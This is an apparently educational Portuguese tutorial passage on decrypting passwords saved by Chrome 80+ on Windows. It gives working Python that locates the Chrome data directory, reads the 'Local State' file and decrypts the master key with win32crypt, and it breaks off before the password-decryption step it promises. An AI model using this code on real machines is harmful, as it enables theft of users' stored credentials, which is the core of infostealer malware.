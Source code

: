 <center><img src="/img/std/dojo/dojo-11.png"></center>

Esta task exigiu muita pesquisa para ser desenvolvida, pois o Chrome a partir da versão 80, incluiu metodos adicionais para encriptar as senhas armazenadas.

Basicamente todas as credenciais do Chrome são salvas em um banco `SQLite` que fica dentro no diretório `\Users\<usuário>\AppData\Local\Google\Chrome\User Data`.

Neste diretório, além do database SQLite, ele também grava a `Master Key` que é uma chave também encriptada em duas camadas que serve para descriptar as senhas do database.

O processo basicamente é de decriptar a Master Key, gerar uma cifra com ela, e em seguida utilizar esta cifra para decriptar os passwords.

Abaixo irei descrever cada parte do script e no final montar o script completo e executá-lo.

```python
#diretorio dos arquivos Chrome
path = os.path.expanduser('~') + r"\AppData\Local\Google\Chrome\User Data\\"
```

A biblioteca `os` nos permite executar uma série de comandos do sistema operacional, além de imprimir informações padróes do mesmo. Nesta parte do script, utilizo a função `os.path.expanduser('~')`. Esta função retorna o diretório raiz do usuário, por exemplo `C:\Users\usuario`. em seguida concateno este path com o caminho onde o chrome guarda seus dados resultando em algo do tipo `C:\Users\usuario\AppData\Local\Google\Chrome\User Data`.

```python
# Capturar e decriptar a master key
def master():
    with open(path + r"Local State", 'r') as f:
        local_state = f.read()
        local_state = json.loads(local_state)
    key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])
    key = key[5:]
    key = win32crypt.CryptUnprotectData(key, None, None, None, 0)[1]
    return key
```

Esta função abre o arquivo `Local State` dentro do path e o carrega no formato `JSON`. Dentro deste arquivo, nas chaves "os_crypt" -> "encrypted_key" que está codificada em `base64` se encontra uma string com a key. Em seguida a função `CryptUnprotectData` da biblioteca `win32crypt` desencripta a master key.
